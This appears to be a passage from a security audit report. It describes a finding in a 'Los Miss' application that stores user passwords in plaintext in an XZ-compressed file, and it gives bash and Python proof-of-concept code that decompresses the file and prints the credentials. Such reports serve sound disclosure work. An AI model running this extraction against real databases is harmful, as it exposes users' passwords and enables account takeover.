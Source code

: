 - **KSI attack name:** Password extraction from the DB
- **Severity:** <span style="color:#f32a00">**High**</span>
- **Reference:** [CWE-313](https://cwe.mitre.org/data/definitions/313.html)

### 2.1.1 Description

The application stores all data in plaintext, including user passwords. The data which is compressed in XZ format and saved in file `__main__` can therefore easily be extracted, provided that the attacker has access to the database file.

### 2.1.2 Proof of Concept

- accounts from the DB can be extracted with a few simple commands on Linux:

```bash
cp __main__ db.xz  # create copy of compressed db
unxz db.xz  # decompress it
readarray -t lines < db  # read lines
for line in "${lines[@]}"; do  # go through lines
  if [[ $line == passwords* ]]; then  # check if line has passwords
    readarray -d "|" -t users_parsed<<<"$line"  # split the lines
    for creds in "${users_parsed[@]}"; do
        echo $creds  # print credentials
    done
  fi
done
```

- same can be achieved with Python:
```python
from lzma import open
with open("__main__", "rb") as f:
  lines = f.read().decode('utf-8').splitlines()
  for line in lines:
    if line.startswith("passwords"):
      for x in line.split("|"):
        print(x)
```

- output of the code (same for both Python and bash):
![extracted passwords](img/passwords.png)


### 2.1.3 Impact

Attacker can use the acquired passwords to log into the Los Miss website as a different user. Since many users use the same or very similar password on more than one web service, the attacker can use the obtained passwords to log into other services where the user uses the same password.
